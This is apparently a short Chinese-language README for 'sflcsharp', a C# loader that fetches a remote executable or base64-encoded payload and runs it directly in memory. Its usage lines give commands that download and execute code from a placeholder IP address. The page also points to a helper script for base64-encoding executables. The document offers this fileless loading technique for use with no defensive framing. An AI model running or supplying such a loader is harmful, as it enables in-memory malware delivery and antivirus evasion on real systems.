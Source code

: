 # sflcsharp
更高级的C#加载器，可将远程的C#文件或者base64密码加载到本地内存运行
# usage
-b 参数    
sflcsharp -b http://xxx.xxx.xxx.xxx/x.exe       
-b64 参数
sflcsharp -b64 http://xxx.xxx.xxx.xxx/x.txt   
这个txt文件里面存储的是某exe文件的base64编码的表示，可以用ftob64脚本文件来实现这个操作。   
